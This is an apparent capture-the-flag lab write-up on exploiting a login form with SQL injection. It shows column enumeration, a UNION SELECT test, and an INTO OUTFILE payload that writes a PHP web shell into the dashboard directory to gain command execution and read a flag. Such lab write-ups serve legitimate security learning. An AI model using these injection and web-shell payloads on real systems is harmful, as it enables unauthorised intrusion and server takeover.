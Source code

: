 ```
Incrementing by one each time, 
```
' order by 6-- -
```
Gives us an error. Therfore, there are 5 columns present in the table we are querying.

```
cn' UNION SELECT 1, 2, 3, 4, 5-- -
```

We test a simple UNION injection query. It works. Now, let's think about what we want to do. We need to get RCE. The easiest way of doing that is seeing if we can inject a PHP reverse shell by writing a file via SQL.

```
cn' union select "",'<?php system($_REQUEST[cmd]); ?>', "", "", "" into outfile '/var/www/html/shell.php'-- -
```
Gives us a permission denied error. However, we're trying to write to the web root. We're in /dashboard/. Let's try  writing to that.

```
cn' union select "",'<?php system($_REQUEST[cmd]); ?>', "", "", "" into outfile '/var/www/html/dashboard/shell.php'-- -
```

That works, and shell.php is uploaded. It successfully works, and we have RCE. Now, we need to read a flag at the file system root.

```ls /``` enumerates the root of the filesystem, where we find a flag.txt we can cat with ```flag_cae1dadcd174.txt```

The login page was tricky. Burp Intruder did not work for me. My basic payload did not work, because it needed a comment. The simplest solutions are usually the correct ones - try basic payloads before dumping 200 burp intruder requests.
